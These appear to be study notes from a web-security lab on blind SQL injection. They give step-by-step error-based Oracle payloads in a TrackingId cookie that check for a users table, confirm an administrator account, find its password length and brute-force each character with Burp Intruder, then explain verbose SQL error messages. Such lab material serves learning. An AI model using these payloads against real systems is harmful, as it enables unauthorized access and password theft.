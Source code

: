 - try to trigger the error with a fake table:
	- ``TrackingId=xyz'||(SELECT '' FROM not-a-real-table)||'`` -->  we have the error
- test if the table `users` exists:
	- ``TrackingId=xyz'||(SELECT '' FROM users WHERE ROWNUM = 1)||'``
		- no err => it exists
		  
- let's trigger the error using the condition that we saw before with `CASE` 
- `TrackingId=xyz'||(SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM dual)||'`
	- err
- `TrackingId=xyz'||(SELECT CASE WHEN (1=2) THEN TO_CHAR(1/0) ELSE '' END FROM dual)||'`
	- no err
- =>
  let's use this condition to test if the `administrator` user exists:
	- `TrackingId=xyz'||(SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'`
		- err received => exists
- let's find password length
	- `TrackingId=xyz'||(SELECT CASE WHEN LENGTH(password)>1 THEN to_char(1/0) ELSE '' END FROM users WHERE username='administrator')||'`
		- err receiver => password > 1
		- repeat until you don't have the err
		  =>
		  password is 20 ch
- let's find password ch
	- Send the packet to Intruder
	- `TrackingId=xyz'||(SELECT CASE WHEN SUBSTR(password,§1§,1)='§a§' THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'`
	- Attack type Cluster Bomb
	- for param 1 set values as Number from 1 to 20
	- for param 2 set values as simple list and select from the default list a-Z and 0-9
- start the attack
- filter for status code -->  if 500 => there is the err =>  extract all the 500 status rows 

#### Extracting sensitive data via verbose SQL error messages
Misconfiguration of the DB sometimes results in verbose error messages
=>
These can provide information that may be useful to an attacker. 
For example, consider the following error message, 
which occurs after injecting a single quote into an `id` parameter:
`Unterminated string literal started at position 52 in SQL SELECT * FROM tracking WHERE id = '''. Expected char`

This shows the full query that the application constructed using our input. 
We can see that in this case:
- we're injecting into a single-quoted string inside a `WHERE` statement. 
- This makes it easier to construct a valid query containing a malicious payload.
- Commenting out the rest of the query would prevent the superfluous single-quote from breaking the syntax.

Occasionally, you may be able to induce the application to generate an error message that contains some of the data that is returned by the query. 
This effectively turns an otherwise blind SQL injection vulnerability into a visible one.

